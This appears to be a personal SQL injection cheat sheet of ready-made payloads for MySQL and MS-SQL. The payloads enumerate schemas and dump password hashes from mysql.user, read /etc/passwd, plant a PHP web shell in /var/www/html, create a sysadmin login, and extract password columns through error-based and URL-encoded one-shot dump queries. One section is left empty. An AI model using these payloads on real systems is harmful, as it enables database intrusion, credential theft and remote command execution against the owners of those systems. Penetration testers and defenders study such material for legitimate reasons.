 ## MySQL
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
### Union
```
1+1
hex(1)
-1 group by 12
-1 union select "1","2","3"
-1 UNION SELECT 1,2,info from information_schema.processlist-- -
-1 union select "1",(select @@version),"3"
-1 union select "1",(select SCHEMA_NAME from Information_Schema.SCHEMATA LIMIT 0,1),"3"
-1 union select "1",(select group_concat(SCHEMA_NAME,":") from Information_Schema.SCHEMATA), "3"
-1 union select "1",(select group_concat(TABLE_NAME,":",COLUMN_NAME,"\r\n") from Information_Schema.COLUMNS where TABLE_SCHEMA='hotel'), "3"
-1 union select "1",(select group_concat(host,":",user,":",password,"\r\n") from mysql.user),"3"
-1 union select "1",(LOAD_FILE("/etc/passwd")),"3"
-1 union select "1",(TO_base64(LOAD_FILE("/etc/passwd"))),"3"
-1 union select "1",(select "<?php exec($_GET['cmd']); ?>"), "3" INTO OUTFILE '/var/www/html/cmd.php'
```
### Bypass space
```
/**/
```

### Error based
Find version, user, database
```
-1 AND (SELECT 1 FROM (SELECT count(*),CONCAT((SELECT @@version),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y);--+
```
Find schema, tables, columns, data
```

```

### Stack and time-based
```
asdf'; WAITFOR DELAY '0:0:10'--
```

## MS-SQL
https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/
### Adduser
```
EXEC sp_addlogin 'quang', 'pass'; 
exec sys.sp_addsrvrolemember @loginame=N'quang', @rolename = N'sysadmin' ;-- -
```

### Error-based
Find database, user, version
```
asdf'); SELECT name FROM master..sysdatabases where 1=CONVERT(INT,@@version);-- -
asdf'); SELECT name FROM master..sysdatabases where 1=CONVERT(INT,DB_NAME(1));-- -
```
Dump all into a table?
http://securityidiots.com/Web-Pentest/SQL-Injection/mssql/mssql-dios.html
```
as');BEGIN%20DECLARE%20@data%20VARCHAR%288000%29,%20@counter%20int,%20@tblName%20VARCHAR%2850%29,%20@colNames%20VARCHAR%28100%29%20DECLARE%20@tmpTbl%20TABLE%20%28name%20VARCHAR%288000%29%20NOT%20NULL%29%20SET%20@counter%20%3d%201%20SET%20@data%3d%27a%27%2bchar%2810%29%2b%27Injected%20by%20Zen%20::%20%27%2b%27char%2810%29%27%2b@@version%2b%27Database%20::%20%27%2bdb_name%28%29%2bchar%2810%29%2bchar%2810%29%20SET%20@tblName%20%3d%20%27%27%20SET%20@colNames%20%3d%20%27%27%20WHILE%20@counter%3C%3d%28SELECT%20COUNT%28table_name%29%20FROM%20INFORMATION_SCHEMA.TABLES%29%20BEGIN%20SET%20@colNames%20%3d%20%27%27%20SELECT%20@tblName%20%3d%20table_name%20FROM%20INFORMATION_SCHEMA.TABLES%20WHERE%20TABLE_NAME%20NOT%20IN%20%28select%20name%20from%20@tmpTbl%29%20SELECT%20@colNames%20%3d%20@colNames%20%2b%27%20:%20%27%2bcolumn_name%20%20FROM%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20TABLE_NAME%20%3d%20@tblName%20INSERT%20@tmpTbl%20VALUES%28@tblName%29%20SET%20@data%3d@data%2b%27Table%20:%20%27%2b@tblName%2bchar%2810%29%2b%27Columns%20:%27%2b@colNames%2bchar%2810%29%20SET%20@counter%20%3d%20@counter%20%2b%201%20END%20SELECT%20@data%20AS%20output%20INTO%20err_dios%20END--
```
List tables
```
asdf'); SELECT name FROM master..sysdatabases where 1=CONVERT(INT,(CHAR(58)+(SELECT DISTINCT top 1 name FROM (SELECT DISTINCT top 1 name FROM archive..sysobjects where xtype='U' ORDER BY name ASC) sq ORDER BY name DESC)+CHAR(58)))--
asdf'); SELECT name FROM master..sysdatabases where 1=CONVERT(INT,(select string_agg(name,':') from archive..sysobjects where xtype='U'))--
```
List columns
```
asdf'); SELECT name FROM master..sysdatabases where 1=CONVERT(INT,(select string_agg(archive..syscolumns.name,':') from archive..syscolumns, archive..sysobjects where archive..syscolumns.id=archive..sysobjects.id and archive..sysobjects.name='pmanager'))--
```
Get data
```
asdf'); SELECT name FROM master..sysdatabases where 1=CONVERT(INT,(select string_agg(concat(psw,' ',id,' ',alogin),':') from archive.dbo.pmanager))--
```
